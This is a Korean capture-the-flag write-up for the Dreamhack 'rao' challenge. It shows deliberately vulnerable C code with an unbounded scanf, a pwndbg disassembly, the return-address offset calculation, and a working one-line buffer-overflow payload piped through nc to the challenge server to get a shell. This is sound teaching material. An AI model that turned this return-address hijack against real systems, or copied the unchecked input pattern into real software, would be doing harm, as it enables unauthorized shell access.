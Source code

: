```c
// Name: rao.c
// Compile: gcc -o rao rao.c -fno-stack-protector -no-pie

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};

  execve(cmd, args, NULL);
}

int main() {
  char buf[0x28];

  init();

  printf("Input: ");
  scanf("%s", buf);

  return 0;
}
```

`rao.c` 코드를 읽어보면, `get_shell` 함수를 실행시킨다면 쉘을 얻을 수 있으며, 따라서 flag 역시 얻을 수 있음을 알 수 있다.
또한, `scanf("%s", buf);`에서 입력 크기를 제한하지 않는다는 취약점이 있음을 알 수 있다.
그러니 이 부분을 공략하자.

일단, `stdin`으로 넘겨줘야 하는 문자열을 구성하기 위해 `get_shell` 함수의 주소를 알아야 한다.

```bash
$ gdb -q rao
pwndbg: loaded 152 pwndbg commands and 47 shell commands. Type pwndbg [--shell | --all] [filter] for a list.
pwndbg: created $rebase, $ida GDB functions (can be used with print/break)
Reading symbols from rao...
(No debugging symbols found in rao)
------- tip of the day (disable with set show-tips off) -------
The $heap_base GDB variable can be used to refer to the starting address of the heap after running the heap command
pwndbg> disassemble get_shell
Dump of assembler code for function get_shell:
   0x00000000004006aa <+0>:     push   rbp
   0x00000000004006ab <+1>:     mov    rbp,rsp
   0x00000000004006ae <+4>:     sub    rsp,0x20
   0x00000000004006b2 <+8>:     lea    rax,[rip+0xfb]        # 0x4007b4
   0x00000000004006b9 <+15>:    mov    QWORD PTR [rbp-0x8],rax
   0x00000000004006bd <+19>:    mov    rax,QWORD PTR [rbp-0x8]
   0x00000000004006c1 <+23>:    mov    QWORD PTR [rbp-0x20],rax
   0x00000000004006c5 <+27>:    mov    QWORD PTR [rbp-0x18],0x0
   0x00000000004006cd <+35>:    lea    rcx,[rbp-0x20]
   0x00000000004006d1 <+39>:    mov    rax,QWORD PTR [rbp-0x8]
   0x00000000004006d5 <+43>:    mov    edx,0x0
   0x00000000004006da <+48>:    mov    rsi,rcx
   0x00000000004006dd <+51>:    mov    rdi,rax
   0x00000000004006e0 <+54>:    call   0x400550 <execve@plt>
   0x00000000004006e5 <+59>:    nop
   0x00000000004006e6 <+60>:    leave
   0x00000000004006e7 <+61>:    ret
End of assembler dump.
```

따라서 `get_shell` 함수의 주소는 `0x4006aa`임을 알 수 있으며, 리턴 주소 자리에 `b'\xaa\x06\x40\x00\x00\x00\x00\x00'`을 채워주면 쉘을 얻을 수 있다.
또한, `rao.c`의 `main` 함수에서 선언된 변수가 `0x28`바이트 크기로 선언된 배열인 `buf` 뿐이며, 스택은 `0x10`바이트 단위로 정렬되어야 하므로, `0x30`바이트의 공간이 할당되며, 그 뒤 `0x8`바이트가 SFP, 그 뒤 `0x8`바이트가 Return Address이다.
즉, `stdin`으로 넘겨줄 문자열의 첫 `0x38`바이트의 내용은 뭐가 되든 상관 없으며, 그 다음 8바이트를 `b'\xaa\x06\x40\x00\x00\x00\x00\x00'`로 채워주면 쉘을 탈취할 수 있다.

다음 명령어를 입력하면 서버에 연결한 후 쉘을 탈취할 수 있는 문자열이 버퍼에 저장되게 된다. 따라서 다음 명령어를 입력한 후 바로 엔터를 한 번 더 눌러주면 쉘을 얻을 수 있으며, 쉘을 얻었으니 어렵지 않게 flag를 얻을 수 있다.

```bash
$ (python3 -c "import sys; sys.stdout.buffer.write(b'A' * 0x38 + b'\xaa\x06\x40\x00\x00\x00\x00\x00')"; cat) | nc host3.dreamhack.games <port>
```
